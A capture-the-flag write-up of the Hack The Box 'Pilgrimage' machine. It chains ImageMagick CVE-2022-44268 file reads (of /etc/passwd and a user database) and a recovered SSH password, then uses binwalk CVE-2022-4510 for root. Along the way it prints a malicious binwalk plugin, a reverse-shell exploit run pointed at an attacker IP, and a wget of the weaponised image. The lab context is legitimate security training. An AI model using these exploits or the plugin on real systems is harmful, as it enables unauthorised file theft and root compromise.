## Rustscan:

```Bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20:be:60:d2:95:f6:28:c1:b7:e9:e8:17:06:f1:68:f3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDnPDlM1cNfnBOJE71gEOCGeNORg5gzOK/TpVSXgMLa6Ub/7KPb1hVggIf4My+cbJVk74fKabFVscFgDHtwPkohPaDU8XHdoO03vU8H04T7eqUGj/I2iqyIHXQoSC4o8Jf5ljiQi7CxWWG2t0n09CPMkwdqfEJma7BGmDtCQcmbm36QKmUv6Kho7/LgsPJGBP1kAOgUHFfYN1TEAV6TJ09OaCanDlV/fYiG+JT1BJwX5kqpnEAK012876UFfvkJeqPYXvM0+M9mB7XGzspcXX0HMbvHKXz2HXdCdGSH59Uzvjl0dM+itIDReptkGUn43QTCpf2xJlL4EeZKZCcs/gu8jkuxXpo9lFVkqgswF/zAcxfksjytMiJcILg4Ca1VVMBs66ZHi5KOz8QedYM2lcLXJGKi+7zl3i8+adGTUzYYEvMQVwjXG0mPkHHSldstWMGwjXqQsPoQTclEI7XpdlRdjS6S/WXHixTmvXGTBhNXtrETn/fBw4uhJx4dLxNSJeM=
|   256 0e:b6:a6:a8:c9:9b:41:73:74:6e:70:18:0d:5f:e0:af (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOaVAN4bg6zLU3rUMXOwsuYZ8yxLlkVTviJbdFijyp9fSTE6Dwm4e9pNI8MAWfPq0T0Za0pK0vX02ZjRcTgv3yg=
|   256 d1:4e:29:3c:70:86:69:b4:d7:2c:c8:0b:48:6e:98:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILGkCiJaVyn29/d2LSyMWelMlcrxKVZsCCgzm6JjcH1W
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://pilgrimage.htb/
|_http-server-header: nginx/1.18.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94%E=4%D=6/25%OT=22%CT=%CU=37222%PV=Y%DS=2%DC=T%G=N%TM=649881C0%P=x86_64-pc-linux-gnu)
SEQ(SP=104%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)
OPS(O1=M550ST11NW7%O2=M550ST11NW7%O3=M550NNT11NW7%O4=M550ST11NW7%O5=M550ST11NW7%O6=M550ST11)
```

* * *

## SSH:

Like always nothing on SSH without proper credentials, and bruteforce is not contempted so I will move on for now.

* * *

## HTTP:

At login we can see a page that helps you shrink your images:


Let's register and login with a user to see what can we do. I tried to check for Subdomains but nothing came out so far:



And by searching for web directories:



Ok seems like we have a git repo, so let's try to dump it and see what is all about:



Ok we can see a user from logs:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/.git]
└─# git log                                                      
commit e1a40beebc7035212efdcb15476f9c994e3634a7 (HEAD -> master)
Author: emily <emily@pilgrimage.htb>
Date:   Wed Jun 7 20:11:48 2023 +1000

    Pilgrimage image shrinking service initial commit.
```

I decided check the code and apparently seems like either a jpg or png can be uploaded and then it gets uploaded to /tmp, folder executed a image convert with magick:



Then the websites gives you back the link to the shrikned image. Now here I decided to "Compile" the Git repository we dumped and I have the magick version used on the background:



And looking aroud seems like we have a exploit that we can use to get a LFI: https://www.exploit-db.com/exploits/51261

The POC: https://github.com/voidz0r/CVE-2022-44268

And seems like we have the /etc/passwd:

```Bash
<pre><span style="color:#367BF0">┌──(</span><span style="color:#EC0101"><b>root㉿kali-linux</b></span><span style="color:#367BF0">)-[</span><b>/home/millycash/Downloads</b><span style="color:#367BF0">]</span>
<span style="color:#367BF0">└─</span><span style="color:#EC0101"><b>#</b></span> <span style="color:#49AEE6">python3</span> <span style="color:#5EBDAB">-c</span> <span style="color:#FEA44C">&apos;print</span><span style="color:#277FFF"><b>(</b></span><span style="color:#FEA44C">bytes.fromhex</span><span style="color:#47D4B9"><b>(</b></span><span style="color:#FEA44C">&quot;726f6f743a783a303a303a726f6f743a2f726f6f743a2f62696e2f626173680a6461656d6f6e3a783a313a313a6461656d6f6e3a2f7573722f7362696e3a2f7573722f7362696e2f6e6f6c6f67696e0a62696e3a783a323a323a62696e3a2f62696e3a2f7573722f7362696e2f6e6f6c6f67696e0a7379733a783a333a333a7379733a2f6465763a2f7573722f7362696e2f6e6f6c6f67696e0a73796e633a783a343a36353533343a73796e633a2f62696e3a2f62696e2f73796e630a67616d65733a783a353a36303a67616d65733a2f7573722f67616d65733a2f7573722f7362696e2f6e6f6c6f67696e0a6d616e3a783a363a31323a6d616e3a2f7661722f63616368652f6d616e3a2f7573722f7362696e2f6e6f6c6f67696e0a6c703a783a373a373a6c703a2f7661722f73706f6f6c2f6c70643a2f7573722f7362696e2f6e6f6c6f67696e0a6d61696c3a783a383a383a6d61696c3a2f7661722f6d61696c3a2f7573722f7362696e2f6e6f6c6f67696e0a6e6577733a783a393a393a6e6577733a2f7661722f73706f6f6c2f6e6577733a2f7573722f7362696e2f6e6f6c6f67696e0a757563703a783a31303a31303a757563703a2f7661722f73706f6f6c2f757563703a2f7573722f7362696e2f6e6f6c6f67696e0a70726f78793a783a31333a31333a70726f78793a2f62696e3a2f7573722f7362696e2f6e6f6c6f67696e0a7777772d646174613a783a33333a33333a7777772d646174613a2f7661722f7777773a2f7573722f7362696e2f6e6f6c6f67696e0a6261636b75703a783a33343a33343a6261636b75703a2f7661722f6261636b7570733a2f7573722f7362696e2f6e6f6c6f67696e0a6c6973743a783a33383a33383a4d61696c696e67204c697374204d616e616765723a2f7661722f6c6973743a2f7573722f7362696e2f6e6f6c6f67696e0a6972633a783a33393a33393a697263643a2f72756e2f697263643a2f7573722f7362696e2f6e6f6c6f67696e0a676e6174733a783a34313a34313a476e617473204275672d5265706f7274696e672053797374656d202861646d696e293a2f7661722f6c69622f676e6174733a2f7573722f7362696e2f6e6f6c6f67696e0a6e6f626f64793a783a36353533343a36353533343a6e6f626f64793a2f6e6f6e6578697374656e743a2f7573722f7362696e2f6e6f6c6f67696e0a5f6170743a783a3130303a36353533343a3a2f6e6f6e6578697374656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d6e6574776f726b3a783a3130313a3130323a73797374656d64204e6574776f726b204d616e6167656d656e742c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d7265736f6c76653a783a3130323a3130333a73797374656d64205265736f6c7665722c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c6f67696e0a6d6573736167656275733a783a3130333a3130393a3a2f6e6f6e6578697374656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d74696d6573796e633a783a3130343a3131303a73797374656d642054696d652053796e6368726f6e697a6174696f6e2c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c6f67696e0a656d696c793a783a313030303a313030303a656d696c792c2c2c3a2f686f6d652f656d696c793a2f62696e2f626173680a73797374656d642d636f726564756d703a783a3939393a3939393a73797374656d6420436f72652044756d7065723a2f3a2f7573722f7362696e2f6e6f6c6f67696e0a737368643a783a3130353a36353533343a3a2f72756e2f737368643a2f7573722f7362696e2f6e6f6c6f67696e0a5f6c617572656c3a783a3939383a3939383a3a2f7661722f6c6f672f6c617572656c3a2f62696e2f66616c73650a&quot;</span><span style="color:#47D4B9"><b>)</b></span><span style="color:#277FFF"><b>)</b></span><span style="color:#FEA44C">&apos;</span>
b&apos;root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\nsystemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin\nsystemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin\nmessagebus:x:103:109::/nonexistent:/usr/sbin/nologin\nsystemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin\nemily:x:1000:1000:emily,,,:/home/emily:/bin/bash\nsystemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin\nsshd:x:105:65534::/run/sshd:/usr/sbin/nologin\n_laurel:x:998:998::/var/log/laurel:/bin/false\n&apos;</pre>
```

Now my idea is to try to dump the DB file and checking the login.php seems like the DB is here:



Again so first I build the payload into the image:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/CVE-2022-44268]
└─# cargo run "/var/db/pilgrimage"
    Finished dev [unoptimized + debuginfo] target(s) in 0.00s
     Running `target/debug/cve-2022-44268 /var/db/pilgrimage`
```

Then I upload it, and download the shriked image(the last one):



get the verbose of the picture:



And paste the hex data into a hex to string converter:



Nice we have emily's password:

```Bash
emily:abigchonkyboi123
```

And  we can ssh anf grab our first flag:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# ssh emily@pilgrimage.htb                  
The authenticity of host 'pilgrimage.htb (10.10.11.219)' can't be established.
ED25519 key fingerprint is SHA256:uaiHXGDnyKgs1xFxqBduddalajktO+mnpNkqx/HjsBw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'pilgrimage.htb' (ED25519) to the list of known hosts.
emily@pilgrimage.htb's password: 
Linux pilgrimage 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
emily@pilgrimage:~$ ll
-bash: ll: command not found
emily@pilgrimage:~$ ls -al
total 36
drwxr-xr-x 4 emily emily 4096 Jun  8 00:10 .
drwxr-xr-x 3 root  root  4096 Jun  8 00:10 ..
lrwxrwxrwx 1 emily emily    9 Feb 10 13:42 .bash_history -> /dev/null
-rw-r--r-- 1 emily emily  220 Feb 10 13:41 .bash_logout
-rw-r--r-- 1 emily emily 3526 Feb 10 13:41 .bashrc
drwxr-xr-x 3 emily emily 4096 Jun  8 00:10 .config
-rw-r--r-- 1 emily emily   44 Jun  1 19:15 .gitconfig
drwxr-xr-x 3 emily emily 4096 Jun  8 00:10 .local
-rw-r--r-- 1 emily emily  807 Feb 10 13:41 .profile
-rw-r----- 1 root  emily   33 Jun 25 21:22 user.txt
emily@pilgrimage:~$ cat user.txt 
50ffccf3d8f7b0627ff334100d6ae0a3
```

* * *

## Road to Root.txt:

Now easiest is to check manually if emily have any sudo permissions, but no:


Then we know from first /etc/passwd there weren't any other users exect root of course which is our target so I will upload linpeas and pspy and move enumerate deeply.

```Bash
root         653  0.0  0.0   6816  2984 ?        Ss   Jun25   0:00 /bin/bash /usr/sbin/malwarescan.sh
root         662  0.0  0.0   2516   712 ?        S    Jun25   0:00  _ /usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/


╔══════════╣ Analyzing Github Files (limit 70)

-rw-r--r-- 1 emily emily 44 Jun  1 19:15 /home/emily/.gitconfig
[safe]
    directory = /var/www/pilgrimage.htb


drwxr-xr-x 8 root root 4096 Jun  8 00:10 /var/www/pilgrimage.htb/.git
```

Ok that inotify seems interesting I will fireup Pspy and check if I can see more about i the other one..

```Bash
2023/06/26 05:33:21 CMD: UID=0    PID=665    | /lib/systemd/systemd-logind 
2023/06/26 05:33:21 CMD: UID=0    PID=663    | /bin/bash /usr/sbin/malwarescan.sh 
2023/06/26 05:33:21 CMD: UID=0    PID=662    | /usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ 
2023/06/26 05:33:21 CMD: UID=0    PID=661    | /sbin/dhclient -4 -v -i -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases -I -df /var/lib/dhcp/
```



Ok now we see what is calling that Inotifywaiting..

Ok we can see that a binwalk is used so let's see if we can see the version of it:



Ok is there any exploit available for that version?

https://onekey.com/blog/security-advisory-remote-command-execution-in-binwalk/

Apparently yes says the link


And both version and -e option are in our range scope which means we should be able to execute this!

And it should be pretty easy by adding a plugin and lastly uploading a file on the shrink page!



Let's wrap it up!

```Bash
emily@pilgrimage:~/.config/binwalk/plugins$ ls -al
total 12
drwxr-xr-x 2 emily emily 4096 Jun 26 06:17 .
drwxr-xr-x 6 emily emily 4096 Jun  8 00:10 ..
-rw-r--r-- 1 emily emily  544 Jun 26 06:17 shell
emily@pilgrimage:~/.config/binwalk/plugins$ cat shell 
import binwalk.core.plugin
import os
import shutil

class MaliciousExtractor(binwalk.core.plugin.Plugin):
    """
    Malicious binwalk plugin
    """

    def init(self):
        if not os.path.exists("/tmp/.binwalk"):
            os.system("cat /root/root.txt")
            with open("/tmp/.binwalk", "w") as f:
                f.write("1")
        else:
            os.remove("/tmp/.binwalk")
            os.remove(os.path.abspath(__file__))
            shutil.rmtree(os.path.join(os.path.dirname(os.path.abspath(__file__)), "__pycache__"))
emily@pilgrimage:~/.config/binwalk/plugins$
```

Ok now that we have it we can either write a file or upload a picture for shrinikng so we can kick that binwalk!

But it didn't worked so I found this as well: https://github.com/electr0sm0g/CVE-2022-4510

And weapozizing a simply png image :

```BAsh
┌──(root㉿kali-linux)-[/home/millycash/Downloads/CVE-2022-4510]
└─# python3 RCE_Binwalk.py image.png 10.10.14.6 6666

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################


You can now rename and share binwalk_exploit and start your local netcat listener.
```

And then uploading to the /shrunk folder:

```Bash
emily@pilgrimage:/var/www/pilgrimage.htb/shrunk$ ls
6498a690398ce.jpeg  image.png
emily@pilgrimage:/var/www/pilgrimage.htb/shrunk$ wget http://10.10.14.6:9000/CVE-2022-4510/binwalk_exploit.png
--2023-06-26 06:49:46--  http://10.10.14.6:9000/CVE-2022-4510/binwalk_exploit.png
Connecting to 10.10.14.6:9000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1762642 (1.7M) [image/png]
Saving to: ‘binwalk_exploit.png’

binwalk_exploit.png                     100%[=============================================================================>]   1.68M  5.26MB/s    in 0.3s    

2023-06-26 06:49:46 (5.26 MB/s) - ‘binwalk_exploit.png’ saved [1762642/1762642]
```

That get's us a RCE as Root!

Now grab last flag and enjoy!

